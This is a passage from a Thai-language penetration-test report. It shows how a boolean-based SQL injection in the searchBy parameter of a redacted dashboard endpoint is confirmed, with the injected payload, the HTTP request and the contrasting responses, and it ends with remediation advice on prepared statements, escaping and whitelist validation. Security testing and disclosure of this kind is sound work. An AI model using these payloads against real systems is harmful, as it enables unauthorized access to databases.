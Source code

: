 \begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Mon, 13 May 2019 03:01:42 GMT
Content-Length: 3984
[...]

{"iTotalRecords":12,"iTotalDisplayRecords":12,"data":[[1,"1905101637LUZFN81","IRM","YYYY","George Adam1","567899000000","George Adam1","SGD","99.02","THB","37.58","31.3200000","FA","318013"]]
[...]
\end{lstlisting}

จากนั้นทดสอบใส่คำสั่ง SQL ดังต่อไปนี้ลงไปในค่าของตัวแปร searchBy แต่ครั้งนี้คำสั่งที่ใส่ไปจะมีค่าเป็น False

\begin{lstlisting}[language=sql,numbers=none] 
SENDING_NAME='YYYY' and '1'='0' and SENDING_NAME
\end{lstlisting}

จะได้ Request ดังต่อไปนี้

\begin{lstlisting}[numbers=none] 
POST [REDACTED]/dashboardV4.htm HTTP/1.1
[...]

cmd=getDashBoardTransaction&transactionType=OUW&<@\textcolor{red}{searchBy=SENDING\_NAME='YYYY' and '1'='0' and SENDING\_NAME}@>&searchValue=YYYY&currency=&country=&status=&startDate=2019-05-02&endDate=2019-05-13
\end{lstlisting}

Response ที่ได้กลับมาไม่มีข้อมูลอะไรอยู่เลย

\begin{lstlisting}[numbers=none] 
HTTP/1.1 200 OK
Date: Mon, 13 May 2019 03:01:42 GMT
Content-Length: 54
[...]

{"iTotalRecords":0,"iTotalDisplayRecords":0,"data":[]}
\end{lstlisting}

ดังนั้นจึงยืนยันได้ว่าคำสั่ง SQL ที่ใส่เข้าไปถูกตัวเว็บแอปพลิเคชันนำไปทำงาน ซึ่งตัวแปรที่ทำให้เกิดช่องโหว่นี้คือตัวแปร searchBy

วิธีการแก้ไขคือควรใช้ SQL Prepare Statements แทนการเชื่อม String เนื่องจากส่วนข้อมูล Input กับ คำสั่งจะไม่ถูกนำมาต่อกันโดยตรง ถ้าไม่สามารถใช้ SQL Prepare Statement ได้ เนื่องจากข้อจำกับของภาษา หรือ Framework ก็ไม่ควรนำ Input จาก User เข้าไปใช้กับ Database โดยตรง

ซึ่งหมายความว่าตัวอักขระพิเศษเช่น Single Quote (') หรือ Double Quote (") จะต้องถูก Escape ก่อน (แปลงจาก ' เป็น \textbackslash') เพื่อให้ Database มองว่าเป็นข้อมูล ไม่ใช่คำสั่ง

นอกจากนี้ยังควรกรองข้อมูล Input ด้วยวิธีแบบ Whitelist เช่นเลข ID สินค้าควรเช็คที่ฝั่ง Server ว่าประกอบไปด้วยตัวเลขเท่านั้น เป็นต้น และควรกรอกข้อมูลกับทุก ๆ Input ที่ผู้ใช้สามารถใส่เข้ามาได้ เช่น Cookie, Form ที่ถูกซ่อนอยู่ และ Request Header ต่าง ๆ เป็นต้น

